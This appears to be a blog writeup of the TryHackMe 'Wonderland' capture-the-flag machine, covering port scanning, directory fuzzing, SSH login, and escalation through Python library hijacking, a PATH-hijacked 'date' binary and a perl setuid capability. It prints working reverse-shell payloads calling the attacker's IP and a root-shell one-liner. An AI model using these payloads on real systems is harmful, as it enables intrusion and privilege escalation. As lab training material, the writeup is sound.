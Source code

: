 ```yaml
---
date: 2020-06-07 19:54:22
layout: post
title: "Wonderland"
subtitle: Medium Machine from Tryhackme
description: 
image: /writeup/assets/img/wonderland/wonderland.png
optimized_image:
category: Tryhackme
tags: 
author:
paginate: false
---
```

<a href="https://tryhackme.com/room/wonderland">Link</a> to the machine on tryhackme.

I started with nmap scan
```bash
nmap -T4 -p- -A 10.10.58.164
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-07 20:13 IST
Nmap scan report for 10.10.39.171
Host is up (0.25s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 3.1 - 3.2 (92%), Linux 3.11 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   270.56 ms 10.9.0.1
2   279.33 ms 10.10.39.171

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.07 seconds
```
Only two ports were open on the machine, 22 and 80.

Proceeded with port 80, visited the website hosted on the port.
![placeholder](/writeup/assets/img/wonderland/site.png "site")
Site said Follow the white rabbit. Nothing interesting in the source.So,started fuzzing for hidden directories and pages.
```bash
ffuf -w /root/Documents/Fuzz/fuzzdir -u "http://10.10.58.164/FUZZ" -e .php,.html,.txt,.asp,.aspx,.zip
```
![placeholder](/writeup/assets/img/wonderland/fuzz.png "fuzz")
This shows a directory named **r**.So now it is quite  guessable what the home page meant by following the rabbit.
There were directories like /r/a/b/b/i/t/
Inside the directory at the url
```url
http://10.10.58.164/r/a/b/b/i/t/
```
The page said ***"Open the door and enter wonderland"***
![placeholder](/writeup/assets/img/wonderland/enter.png "enter")

In the source of the page the password for alice user was present.

![placeholder](/writeup/assets/img/wonderland/alice.png "alice")

Logged in through SSH as Alice user.

But instead of user.txt, root.txt was present inside the home directory of the Alice user, although it was only accessible by root.
There were in total 4 users on the machine.
![placeholder](/writeup/assets/img/wonderland/users.png "users")
A python script was also present in the home directory and running ***sudo -l***, showed that alice user can run the script as user rabbit.
Enumerating the machine, I found that root directory was accessible by everyone though read permission was not given but execute permission was present.
```
cd /root/
cat user.txt
```
Got the user flag.

Analyzing the python script, I found that it is simply importing a module random and then print some random lines from the poem given in script.

Since, the script was present in the directory where I had write permission. So, I did python module/library hijacking.
Since python searches for modules first in the directory where script is present and then according to PYTHONPATH environment variable.

I copied the random.py to the /home/alice and then added my commands inside _test funtion in random.py to get a reverse shell.
The _test function then looked like
```python
def _test(N=2000):
    _test_generator(N, random, ())
    _test_generator(N, normalvariate, (0.0, 1.0))
    _test_generator(N, lognormvariate, (0.0, 1.0))
    _test_generator(N, vonmisesvariate, (0.0, 1.0))
    _test_generator(N, gammavariate, (0.01, 1.0))
    _test_generator(N, gammavariate, (0.1, 1.0))
    _test_generator(N, gammavariate, (0.1, 2.0))
    _test_generator(N, gammavariate, (0.5, 1.0))
    _test_generator(N, gammavariate, (0.9, 1.0))
    _test_generator(N, gammavariate, (1.0, 1.0))
    _test_generator(N, gammavariate, (2.0, 1.0))
    _test_generator(N, gammavariate, (20.0, 1.0))
    _test_generator(N, gammavariate, (200.0, 1.0))
    _test_generator(N, gauss, (0.0, 1.0))
    _test_generator(N, betavariate, (3.0, 3.0))
    _test_generator(N, triangular, (0.0, 1.0, 1.0/3.0))

# Create one instance, seeded from current time, and export its methods
# as module-level functions.  The functions share state across all uses
#(both in the user's code and in the Python libraries), but that's fine
# for most programs and is easier for the casual user than making them
# instantiate their own Random() instance.

_inst = Random()
seed = _inst.seed
random = _inst.random
uniform = _inst.uniform
triangular = _inst.triangular
randint = _inst.randint
choice = _inst.choice
randrange = _inst.randrange
sample = _inst.sample
shuffle = _inst.shuffle
choices = _inst.choices
normalvariate = _inst.normalvariate
lognormvariate = _inst.lognormvariate
expovariate = _inst.expovariate
vonmisesvariate = _inst.vonmisesvariate
gammavariate = _inst.gammavariate
gauss = _inst.gauss
betavariate = _inst.betavariate
paretovariate = _inst.paretovariate
weibullvariate = _inst.weibullvariate
getstate = _inst.getstate
setstate = _inst.setstate
getrandbits = _inst.getrandbits

import os                                                #added
import subprocess                                        #added
import socket         				        #added
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)       #added
s.connect(("10.9.12.192",8888)) 			#added
os.dup2(s.fileno(),0)					#added
os.dup2(s.fileno(),1)					#added
os.dup2(s.fileno(),2)					#added
p=subprocess.call(["/bin/sh","-i"])			#added
```
You can <a href="https://medium.com/@klockw3rk/privilege-escalation-hijacking-python-library-2a0e92a45ca7">refer</a> for more information on python library hijacking.

Now executed the file as rabbit
```
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```
Got the reverse shell as user rabbit.

Made the shell better with following commands
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
#Then
export TERM=xterm
#Then press ctrl+z
#type
stty raw -echo
#then
fg
#then press Enter two times.
#This makes shell with most functions as ssh shell.
```

Inside the rabbit user's home directory, I found a SUID binary named teaParty.
Listing the contents of the binary found some information between malformed characters.
![placeholder](/writeup/assets/img/wonderland/teaparty.png "teaparty")

So this binary was executing date command to present the output.
Since this was a SUID binary so,when it will run it will use PATH as of the user who is executing(rather than the case in sudo where the path used is already specified in sudoers file.)

Changed the path to prepend tmp directory.
```
export PATH=/tmp/:$PATH
```

Added a file named ***date*** inside the tmp directory and made it executable.

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.9.12.192/7777 0>&1
```
```bash
chmod +x date
```

Ran the teaParty file and got the shell as user hatter.
Inside the home directory of the user found a password.txt which gave the password for user hatter.
Used the password to switch user in SSH shell of alice. This password also worked directly on SSH login.

Got the SSH shell of hatter user.

Running the linpeas.sh script I found that there were some capabilities with perl command that could give root shell.

The perl command which was either executable by root or by people in hatter group had the capability ***cap_setuid+ep***

Used the command from GTFObins to get the root shell.
```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

Got the shell and the root.txt placed at /home/alice.
![placeholder](/writeup/assets/img/wonderland/root.png "root")


    

 
